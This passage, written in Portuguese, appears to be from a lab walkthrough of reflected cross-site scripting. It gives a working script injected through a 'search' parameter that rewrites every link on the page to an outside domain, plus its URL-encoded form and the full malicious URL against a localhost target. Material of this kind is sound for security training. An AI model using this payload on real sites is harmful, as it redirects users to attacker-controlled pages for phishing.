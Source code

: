 Sabendo que um *link* HTML é criado pela *tag* `<a>` e obrigatoriamente precisa do atributo `href` que aponta para o endereço do *link*, podemos criar um *array* com todos os links da página, e iterar sobre ele com um laço `for`.

#### Exploração

Montando o script com os elementos.


```html
<script>
	var links = document.getElementsByTagName("a");
	for (i=0; i < links.length; i++){
		links[i].href = "https://h41stur.com";
	}
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%09var%20links%20%3D%20document.getElementsByTagName%28%22a%22%29%3B%0A%09for%20%28i%3D0%3B%20i%20%3C%20links.length%3B%20i%2B%2B%29%7B%0A%09%09links%5Bi%5D.href%20%3D%20%22https%3A%2F%2Fh41stur.com%22%3B%0A%09%7D%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/05/?search=%3Cscript%3E%0A%09var%20links%20%3D%20document.getElementsByTagName%28%22a%22%29%3B%0A%09for%20%28i%3D0%3B%20i%20%3C%20links.length%3B%20i%2B%2B%29%7B%0A%09%09links%5Bi%5D.href%20%3D%20%22https%3A%2F%2Fh41stur.com%22%3B%0A%09%7D%0A%3C%2Fscript%3E](http://localhost/05/?search=%3Cscript%3E%0A%09var%20links%20%3D%20document.getElementsByTagName%28%22a%22%29%3B%0A%09for%20%28i%3D0%3B%20i%20%3C%20links.length%3B%20i%2B%2B%29%7B%0A%09%09links%5Bi%5D.href%20%3D%20%22https%3A%2F%2Fh41stur.com%22%3B%0A%09%7D%0A%3C%2Fscript%3E)

Todos os *links* da página apontarão para o endereço do script.

#### Referências

- [https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName)

### *Task 6 - Changing Content to Social Engineering*
